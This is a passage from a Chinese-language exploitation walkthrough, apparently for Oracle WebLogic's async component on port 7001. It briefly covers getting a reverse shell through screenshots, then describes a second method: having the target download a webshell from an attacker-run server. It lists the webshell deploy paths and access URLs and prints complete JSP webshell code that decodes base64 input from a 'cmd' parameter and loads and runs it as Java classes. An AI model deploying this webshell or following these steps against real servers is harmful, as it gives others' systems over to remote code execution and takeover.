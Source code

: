开启端口监听  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEA1TVAgOrmpz8hWAWekSfmUCRNrcibn56wa7hibc7iaz7czRQS3P6erRqw/640?wx_fmt=png&from=appmsg "")  
  
发送反弹Shell的HTTP请求报文  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEhOo2GVgXr2S43KK9fva5hFiaI2aCbnZE7UoC6pLyHQoEamwykBW7tdQ/640?wx_fmt=png&from=appmsg "")  
  
成功接收到反弹Shell  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVE1GaZk5zRia70o2roDO6UibUxx1MRdG8ed4bzFibNeqrsfvZTfsYqfuklw/640?wx_fmt=png&from=appmsg "")  
  
  
利用方式2 上传WebShell  
  
WebShell 可放置在两个路径下，分别是  
```
路径一：bea_wls9_async_response/8tpkys/war
访问路径：http://<IP/DomainName>:7001/_async/shell.jsp
路径二：bea_wls_internal/9j4dqk/war
访问路径：http://<IP/DomainName>:7001/bea_wls_internal/shell.jsp
```  
  
需要在VPS上开启Web Server，这里直接在本地开启Web Server即可，并在WWW目录下放置一个JSP WebShell以供靶机下载  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEdptLiab5Itf1zT5iaPKp6AOrKQc4dGOgQLXOmJh3ScAxCmkbVWkKicx3A/640?wx_fmt=png&from=appmsg "")  
```
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("cmd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```  
  